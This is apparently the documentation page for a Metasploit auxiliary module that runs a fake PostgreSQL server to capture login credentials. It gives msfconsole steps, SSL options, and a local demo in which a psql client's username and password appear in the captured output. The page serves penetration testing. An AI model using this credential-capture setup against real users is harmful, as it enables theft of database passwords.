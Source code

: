 This module creates a mock PostgreSQL server which accepts credentials.  Upon receiving a login attempt, a
`FATAL:  password authentication failed for user` error is thrown.

## Verification Steps

  1. Start msfconsole
  2. Do: ```use auxiliary/server/capture/postgresql```
  3. Do: ```run```

## Options

  **SSL**

  Boolean if SSL should be used.  Default is `False`.

  **SSLCert**

  File path to a combined Private Key and Certificate file.  If not provided, a certificate will be automatically
  generated.  Default is null.

## Scenarios

### PostgreSQL Server and psql Client

Server:

```
msf5 > use auxiliary/server/capture/postgresql 
msf5 auxiliary(server/capture/postgresql) > run
[*] Auxiliary module running as background job 0.

[*] Started service listener on 0.0.0.0:5432 
[*] Server started.
[+] PostgreSQL LOGIN 127.0.0.1:49882 msf / pwn_all_da_tings / msf
```

Client:

```
root@kali:~# psql -U msf -h 127.0.0.1
Password for user msf: 
psql: FATAL:  password authentication failed for user "msf"
```
